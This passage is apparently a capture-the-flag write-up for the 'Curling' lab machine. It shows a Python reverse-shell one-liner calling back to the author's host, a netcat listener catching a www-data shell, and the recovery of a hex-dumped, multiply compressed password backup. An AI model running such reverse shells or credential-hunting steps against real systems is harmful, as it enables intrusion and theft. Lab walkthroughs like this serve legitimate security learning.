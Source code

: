 ```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And here I have my reverse shell !

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.150: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.150] 45078
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Looking around for privilege escalation, I found this :

```
www-data@curling:/home/floris$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```

Password_backup, looks interesting !

```
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

It' a hex dump, let's reverse it :

```
www-data@curling:/home/floris$ cat password_backup | xxd -r > /tmp/test
```

```
www-data@curling:/tmp$ file test
test: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv test test.bz2
www-data@curling:/tmp$ file test
test: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/tmp$ mv test test.gz
www-data@curling:/tmp$ gunzip test.gz 
www-data@curling:/tmp$ file test      
test: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv test test.bz2
www-data@curling:/tmp$ bzip2 -d test.bz2 
www-data@curling:/tmp$ file test 
test: POSIX tar archive (GNU)
```